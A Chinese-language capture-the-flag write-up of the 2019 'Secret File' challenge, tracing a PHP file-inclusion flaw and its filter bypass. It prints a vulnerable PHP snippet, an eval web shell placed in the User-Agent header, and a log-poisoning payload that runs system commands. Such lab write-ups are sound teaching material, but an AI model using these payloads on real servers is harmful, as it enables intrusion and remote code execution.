 ```yaml
---
sidebar: false
article: false
title: 极客大挑战 2019  Secret File
date: 2024-09-14 15:25:34
permalink: /pages/276200/
author: 
  name: Cola
  link: https://the0n3.top
---
```



##  [极客大挑战 2019]Secret File

打开f12调试工具，看到页面源码存在文件`Archive_room.php`文件，访问

![arch](https://the0n3.top/medias/daily/secret/arch.png)

在`Archive_room.php`里的按钮点击后，跳转到了end.php。在调试工具网络里可以看到，这个过程请求了`action.php`，但是又跳到`end.php`了

![action](https://the0n3.top/medias/daily/secret/action.png)

一时手足无措了。看了大佬思路，发现可以bp抓包看这个过程的action.php，又学到了

![secr3t](https://the0n3.top/medias/daily/secret/secr3t.png)

抓包可以看到`action.php`页面有提示文件`secr3t.php`文件

访问secr3t.php，页面源码

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

一个简单的文件包含，但是过滤了`../`、`tp`、`input`、`data`，。还可以包含日志，那就试试。注意日志包含写木马不能有错误，有错误日志就不能用了，只能重新开容器

UA(user-agent)：`<?php highlight_file(__FILE__);eval($_GET[1]);?>`

payload：`?file=/var/log/nginx/access.log&1=system('tac flag.php');`

![flag](https://the0n3.top/medias/daily/secret/flag.png)